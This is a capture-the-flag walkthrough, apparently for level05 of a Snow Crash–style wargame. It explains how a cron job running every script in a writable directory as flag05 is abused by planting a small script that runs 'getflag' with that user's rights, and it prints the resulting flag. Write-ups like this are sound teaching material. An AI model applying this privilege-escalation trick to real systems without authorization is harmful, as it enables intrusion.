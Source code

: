 # level05

- We log as `level05`

- As we log we can se a notification: `You have new mail.`

- We go into `/var/mail` and we find a `level05` file which contains:
```
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```

- This is a cron job that runs the command `su -c "sh /usr/sbin/openarenaserver"` every 2 minues

- Let's take a look at `/usr/sbin/openarenaserver`

- It is a simple sh script:
```
#!/bin/sh

for i in /opt/openarenaserver/* ; do
		(ulimit -t 5; bash -x "$i")
		rm -f "$i"
done
```

- We can see that this script execute every script present inside `/opt/openarenaserver` directory with `bash -x` and removes it after.

- We can check `/opt/openarenaserver` permissions using  `ls -la /opt/openarenaserver`
	>`drwxrwxr-x+ 2 root root 40 Aug 17 23:50 .`

- It has extended permissions:
```
# file: .
# owner: root
# group: root
user::rwx
user:level05:rwx
user:flag05:rwx
group::r-x
mask::rwx
other::r-x
default:user::rwx
default:user:level05:rwx
default:user:flag05:rwx
default:group::r-x
default:mask::rwx
default:other::r-x
```

- We can see `level05` user (us) has all permissions on this directory so let's create a simple shell script named `pwn` inside `/opt/openarenaserver` :
	>`echo "getflag > /tmp/pwned.txt" > /opt/openarenaserver/pwn`

- After 2 minutes the `/opt/openarenaserver/pwn` file dissapeared and a `/tmp/pwned.txt` file appeared

- Inside we get the flag: `viuaaale9huek52boumoomioc`